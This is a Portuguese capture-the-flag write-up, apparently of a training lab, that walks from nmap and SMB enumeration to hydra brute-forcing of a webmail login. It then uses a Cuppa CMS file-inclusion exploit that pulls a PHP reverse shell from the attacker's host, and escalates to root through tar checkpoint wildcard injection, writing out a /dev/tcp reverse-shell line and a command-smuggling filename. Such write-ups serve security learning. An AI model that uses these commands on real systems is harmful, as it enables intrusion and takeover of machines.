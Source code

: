 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172131.png)
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172249.png)
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132254.png)

Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132115.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125256.png)

# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125533.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125612.png)


Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124948.png)

**login: milesdyson   password: cyborg007haloterminator**

Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125214.png)


Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125717.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125803.png)

Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%202025021125822.png)

Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125057.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125924.png)

Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125443.png)

Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130055.png)

Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125334.png)

E assim, conseguimos acesso ao alvo pelo usuário www-data.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124851.png)

Capturamos a flag do user
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131725.png)

**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132021.png)

E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124302.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124424.png)

Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124600.png)

Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130324.png)

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130505.png)

Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131601.png)

Já com acesso ao root, capturamos a flag de root
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131643.png)


**root:** 3f0372db24753accc7179a282cd6a949

